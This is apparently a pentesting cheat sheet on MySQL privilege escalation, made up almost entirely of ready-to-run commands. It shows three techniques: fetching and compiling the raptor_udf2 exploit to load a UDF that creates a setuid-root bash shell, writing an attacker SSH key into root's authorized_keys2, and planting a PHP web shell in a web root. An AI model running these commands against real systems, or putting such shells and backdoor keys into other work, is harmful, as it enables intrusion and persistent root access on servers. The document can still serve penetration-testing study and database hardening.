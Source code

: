 ```yaml
---
title: "MySQL Privilege Escalation"
date: 2025-7-25
tags: ["Exploitation", "Privilege Escalation In Databases", "Mysql", "RCE", "Database", "php", "UDF"]
---
```


### Abuse #1: User Defined Function (UDF)

```console
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```console
# Compile the source script
gcc -g -c raptor_udf2.c
```

```console
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```console
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```console
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```console
# UDF
create table foo(line blob);
```

```console
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```console
# Get plug-in directory
show variables like '%plugin%';
```

```console
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```console
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```console
create function do_system returns integer soname 'raptor_udf2.so';
```

```console
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

---

### Abuse #2: Add SSH Public Key to root

```console
# Connect to database as root
mysql -u root -p'<PASSWORD>' mysql
```

```console
# Check current user
select current_user();
```

```console
# Check privilege
show grants for root@localhost;
```

```console
# If mysql file write is not able to append or overwrite authorized_keys
select "<PUB_KEY>" into outfile "/root/.ssh/authorized_keys2";
```

---

### Abuse #3: Create php File from Database to RCE

```console
create table test(stuff text);
```

```console
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```console
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```
